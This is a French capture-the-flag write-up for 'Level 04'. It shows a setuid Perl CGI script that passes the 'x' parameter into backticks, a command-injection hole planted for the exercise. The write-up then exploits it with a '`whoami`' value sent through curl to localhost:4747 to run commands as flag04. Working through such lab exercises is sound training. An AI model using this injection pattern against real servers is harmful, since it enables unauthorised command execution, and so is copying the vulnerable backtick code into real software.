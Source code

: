 # Level 04

The home of level04 user
```
$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```
On peut voir un script en perl `level04.pl`.
```pl
$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Sur ce script il y a 3 choses à retenir,
 - Un commentaire parlant d'une ip local avec un port
 - Les deux backtick
 - Ce script lit le parametre nommée `x`

Pour confirmer le premier point on peut faire `netstat -nl`, ce qui nous affiche bien le port 4747 sur `listen`
```
$ netstat -nl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
...
tcp6       0      0 :::4747                 :::*                    LISTEN
...
```
Le deuxieme point, on peut exécuter des commandes via le point numero 3 qui est le parametre x.
```
$ ./level04.pl x='`whoami`'
Content-type: text/html

level04
```
Et maintenant si on fait appel à ce cgi sur le port 4747
```
$ curl 'localhost:4747/level04.pl?x=`whoami`'
flag04
```
Et boom, on voit que le serveur est lancé sur l'user flag04 et qu'on peut exécuter la commande `getflag`
